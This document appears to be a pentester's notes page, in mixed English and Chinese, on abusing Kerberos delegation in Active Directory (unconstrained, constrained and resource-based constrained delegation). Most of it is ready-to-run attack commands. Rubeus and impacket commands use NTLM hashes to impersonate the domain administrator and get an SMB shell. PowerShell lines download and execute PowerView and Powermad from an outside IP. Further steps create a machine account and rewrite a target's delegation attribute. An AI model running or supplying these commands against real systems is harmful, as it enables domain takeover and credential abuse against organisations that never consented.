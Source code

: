 # kerberos delegation

Microsoft released several implementations of this including _unconstrained delegation_ (in 2000), _constrained delegation_ (in 2003), and _resource based constrained delegation_ (in 2012).&#x20;

为了克服kerberos  double-hop的缺点

#### Unconstrained Delegation

用户给中间服务器的凭据可以被窃取用来登任意服务器

When the user requests access for a service ticket against a service that uses unconstrained delegation, the request also includes a forwardable TGT

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

#### Constrained Delegation

中间人的属性里有哪些后端可以委派，调整这个属性需要高权限，域控权限

rubeus or kekeo

.\Rubeus.exe s4u /user:web01$ /rc4:46f5e45ca3d9e510adf06f3296a06fa2 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt



impacket-getST -spn cifs/file01 -impersonate administrator -hashes :46f5e45ca3d9e510adf06f3296a06fa2 'evil.com/web01$'

export KRB5CCNAME=administrator.ccache

impacket-smbexec -no-pass -k file01.evil.com

#### Resource-Based Constrained Delegation

为了消除这个高权限，转而变成后端具有属性里有些哪些中间人可以代表他人、这样只需要最终目标的管理员权限就可以了,或者说某个已控制的用户有genetic write的权限，非域管理员权限，这是一个优点。

要写入的属性是spn，

所以中间人必须要有一个spn，所以要么用已有的要么创建一个新的computeraccount/serviceaccount。

那么我们就用我们的中间人去申请目标的本地管理员

```
IEX(new-object system.net.webclient).downloadstring('http://192.168.49.151/powerview.ps1')
IEX(new-object system.net.webclient).downloadstring('http://192.168.49.151/powermad.ps1')
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force) -verbose

Get-DomainComputer -Identity myComputer
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity <replacetarget> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

接下来是确定已经改好了
$RBCDbytes = Get-DomainComputer $targetcomputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl.SecurityIdentifier.Value | ConvertFrom-SID

拿shell
.\Rubeus.exe hash /password:h4x  记住rc4_hmac
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/jump09.ops.comply.com /ptt
然后尝试访问共享
如果可以的话 要么用windows的scshell.exe 或者 getsT.py
impacket-getST -spn CIFS/jump09.ops.comply.com -impersonate 'administrator' -ts ops.comply.com/myComputer\$:'h4x' -dc-ip 172.16.151.165
```

